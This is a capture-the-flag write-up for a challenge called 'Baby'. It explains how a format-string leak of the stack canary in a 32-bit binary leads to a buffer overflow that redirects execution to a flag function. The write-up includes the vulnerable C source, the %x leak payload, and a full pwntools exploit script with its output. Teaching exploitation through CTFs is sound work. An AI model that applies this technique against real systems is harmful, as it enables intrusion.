 # Baby

---

### Challenge Description

How do you tackle cookies?

nc challenge1.lagncrash.com 10000

[baby.zip](https://github.com/caprinux/LagNCrash/files/6128453/baby.zip)

---

### Solution

DISCLAIMER: We did not solve this the intended way. 

```
$ pwn checksec babysource 

[*] '/media/babysource'

    Arch:     i386-32-little

    RELRO:    Partial RELRO

    Stack:    Canary found

    NX:       NX enabled

    PIE:      No PIE (0x8048000)
```

Since theres canary in this binary, you will want to leak the canary so that you can override it and then override the return address.

Looking at the source file, 

```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void flag() {
  char buf[64];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
  printf("Run this on the server.\n");
  exit(0);
  }

  fgets(buf,64,f);
  printf(buf);
}
void init() {
      setbuf(stdin, NULL);
      setbuf(stdout, NULL);
     setbuf(stderr, NULL);
}
void vuln() {
     char buf[100];
     for(int i=0;i<2;i++){
         read(0, buf, 0x200);
         printf(buf);
     }
}
int main(void) {
     init();
     puts("Welcome.");
     vuln ();
     return 0;
}
```
We see that this binary executable takes in 2 read inputs.

So basically we see that this executable will take in 2 inputs of 100 bytes into buffer, and the read function will read 200 bytes from buffer. Hmm.

The flow of this executable is basically, the executable print "Welcome" in main() and then goes ahead to read 2 inputs in vuln() which they will print right out before it goes back to the main function that returns.

As you can see, we can overflow buffer and override the return address to our flag address. 

However, as we have seen, this file has stack canary and we need to find a way to overcome the canary, otherwise we cannot overflow as it would just reset us when the check fails.

Debugging and disassembling the vuln function in gdb-gef, we can find the start of array at ebp-0x70 and the canary at ebp-0x0c.

0x70 - 0x0c = 100

So we want to use a format string attack to try to leak the stack, and we try to fill it with enough %x just under 100 characters.

I open the file in gdb and set a breakpoint right after the first printf call, and then run it with "%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x" as my input 

_(notice that if you try anything more than this, you will likely get ``*** stack smashing detected ***: terminated`` because you are overwriting your stack canary and you are going to fail the canary check, remember that you only want to leak the canary and not override it yet because you cannot bypass the canary without the canary address)_

The binary file prints this

"ffffd6f8 200 80492cd f7fa7d20 0 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 ff0a7825 97c5bc00 804a02b 804c000 "

Now to find out which one prints the canary address, we can compare with the value of the canary by doing ``x/w $ebp-0xc``. I get 97c5bc00 as my canary, and comparing it with the output of printf, I see that it corresponds with the 3rd last printed address.

Now that we know where to get the canary address, we can overflow the 100 bytes of buffer and pass the canary value so we can bypass the check.

The last thing we want to do is print the flag, so we need the flag address which can be easily obtained when you decompile the binary in ghidra, at the flag() function.

Now we can officially craft our exploit.

```py
from pwn import *

flag_addr = 0x080491d2
p = remote("challenge1.lagncrash.com", 10000)

p.recvuntil("Welcome.\n")
p.sendline(b"%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x")
data = p.recv()
canary = data.split(b" ")[-3]
print(canary)
canary = int(canary.decode(), 16)
p.sendline(b"A" * 100 + p32(canary) + b"A" * 12 + p32(flag_addr))
print(p.recv())
```

Executing the exploit, we get the file.

```
b'6f035700'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALNC{T00_EZ_M4Yb3?}\n'
```







